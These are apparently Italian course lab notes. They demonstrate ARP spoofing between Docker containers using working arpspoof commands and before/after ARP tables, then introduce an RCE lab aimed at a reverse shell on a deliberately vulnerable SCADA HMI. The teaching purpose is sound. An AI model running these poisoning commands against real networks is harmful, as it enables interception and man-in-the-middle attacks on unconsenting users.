

# ARP spoofing

ARP vanilla:
1. L'ARP request permette di richiedere il MAC-address ad un device a partire dall'indirizzo IP, ed è inviata in broadcast.
2. L'ARP reply condivide il MAC-address del dispositivo il quale IP corrisponde a quello richiesto.

L'obiettivo dell'ARP spoofing è quello di far passare la comunicazione attraverso l'ARP spoofer.

Quindi nelle entry di PC1 deve essere presente l'ARP spoofer e non PC2.

Quindi quando PC1 eseguirà  `ping IP_PC2`, prenderà il MAC address salvato nelle ARP entris, ma tale MAC corrisponderà all'ARP spoofer e non a PC2.

Su ARP spoofer:
- Flag `IPv4.forwarding = 1` -> tutto ciò che verrà inoltrato all'ARP spoofer sarà di conseguenza passata a PC2.
- Flag `IPv4.forwarding = 0` -> tutto ciò che verrà inoltrato all'ARP spoofer si fermerà

Anche le tabelle di PC2 saranno avvelentate dallo spoofing.

Tutta sta situazione si può mettere al sicuro anche nel caso di attori malevoli presenti nella rete.

## Caso d'esempio
Containers 🥡 (da `.../lesson4/arp1` folder):
- **box1** -> `docker run -i -rm --name box1 busybox`
- **box2** -> `docker run -i -rm --name box2 busybox`

IP table:

|          | box1          | box2                                                 |
| -------- | ------------- | ---------------------------------------------------- |
| IP       | 172.17.0.2/16 | 172.17.0.3/16                                        |
| `arp -a` | `-`           | `(172.17.0.1) at 02:42:0b:a1:dc:83 [ether]  on eth0` |
Per controllare la tabella ARP si usa il comando `arp -a`.

Per riempirla si può pingare rispettivamente box1 e box2.

Si nota così che le tabelle vengono aggiornate:

|          | box1                                                                                                             |
| -------- | ---------------------------------------------------------------------------------------------------------------- |
| `arp -a` | `? (172.17.0.3) at 02:42:ac:11:00:03 [ether]  on eth0`<br>`? (172.17.0.1) at 02:42:0b:a1:dc:83 [ether]  on eth0` |

|          | box2                                                                                                             |
| -------- | ---------------------------------------------------------------------------------------------------------------- |
| `arp -a` | `? (172.17.0.2) at 02:42:ac:11:00:02 [ether]  on eth0`<br>`? (172.17.0.1) at 02:42:0b:a1:dc:83 [ether]  on eth0` |

---

Ora aggiungiamo il dispositivo che farà da arpspoofer e uno sniffer di rete:
- arpspoofer -> `docker build -t arpspoofer ./arpspoofer`
	- è l'utente malevolo con cui avveleneremo le ARP table
- tcpdumper -> `docker build -t tcpdumper ./tcpdumper`
	- analizzatore del traffico di rete

Possiamo avviare l'arpspoofer: `docker run -it --rm --name arpspoofer arpspoofer`

|     | box1          | box2          | arpspoofer 🈳 |
| --- | ------------- | ------------- | ------------- |
| IP  | 172.17.0.2/16 | 172.17.0.3/16 | 172.17.0.4/16 |

Sullo spoofer va dato il comando `arpspoof -r -i eth0 -t <target>`, dove il target è box1 \[`172.17.0.3`\] (ovvero la tabella da avvelenare); inoltre vogliamo modificare la entry per la box2 quindi aggiungiamo l'indirizzo di box2 (vogliamo "impersonare" box2):

```bash
arpspoof -r -i eth0 -t <IP_target_box1> <IP_to_impersonificate_box2>

arpspoof -r -i eth0 -t 172.17.0.2 172.17.0.3
```

Eseguito il comando si nota che il ping eseguito da box1 a box2 è decresciuto di 1 (questo perché si è inserito l'arpspoofer).

Esaminiamo la tabella prima e dopo:

Prima:
```
? (172.17.0.4) at 02:42:ac:11:00:04 [ether]  on eth0
? (172.17.0.3) at 02:42:ac:11:00:03 [ether]  on eth0
? (172.17.0.1) at 02:42:0b:a1:dc:83 [ether]  on eth0
```

Dopo:
```
? (172.17.0.4) at 02:42:ac:11:00:04 [ether]  on eth0
? (172.17.0.3) at 02:42:ac:11:00:04 [ether]  on eth0
? (172.17.0.1) at 02:42:0b:a1:dc:83 [ether]  on eth0
```

Si nota che prima abbiamo tre MAC differenti, mentre successivamente si ha due MAC uguali assegnati a due IP differenti!

L'IP `172.17.0.4` è quello dell'arpspoofing, come si può vedere box2 assume il MAC dell'arpspoofer!! 🚨🚨🚨

---

Si può implementare una sostituzione bidirezionale, per inserire l'arpspoofer in mezzo tra box1 e box2.
Come? eseguendo `arpspoof` su due terminali, invertendo gli indirizzi target.

In questo modo l'arpspoofer diventerà un vero e proprio proxy:


Si può notare che entrambe le tabelle ARP sono state avvelenate e che l'indirizzo IP di box2 su box1 corrisponde al MAC di arpspoofer e viceversa.

---

# RCE (Remote Code Execution)
In `lesson6` si può buildare la webapp vulnerabile.

L'obiettivo VERO è quello di inizializzare una reverse shell per prendere il controllo completo della macchina.

L'HMI è vulnerabile ad **RCE** (CVE-SCADABR-10), essendo esposta su Internet essa può essere presa sottocontrollo da un eventuale attaccante.

> [!info] Vuln non auth
> Una vulnerabilità si dice **non autenticata** se non mi serve essere registrato nel sistema per sfruttarla.

L'obiettivo del prossimo lab. sarà quello di prendere controllo dell'HMI per poi avere totale controllo sulla rete da essa gestita.